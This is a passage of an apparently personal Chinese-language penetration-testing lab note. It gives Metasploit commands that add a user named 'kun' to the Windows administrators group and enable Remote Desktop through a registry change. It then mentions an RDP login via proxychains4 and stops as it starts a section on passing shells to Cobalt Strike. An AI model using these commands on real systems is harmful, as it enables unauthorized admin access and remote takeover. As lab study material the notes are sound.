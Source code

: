 ![image-20230516223044761](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516223044761.png)

```
//提升管理员权限
set command net localgroup administrators kun /add
run
//开启3389端口
set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
run
```

然后使用proxychains4连接win2003的3389(kun用户登录)

![image-20230516232345980](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230516232345980.png)

。。。。。。。。。。

没搞完，先搁着吧



​                                                                                                                                                                                                                                                         

# msf联动cobaltstrike

msf获取到shell后，可以派发给cobaltstrike

首先cobaltstrike创建监听器：
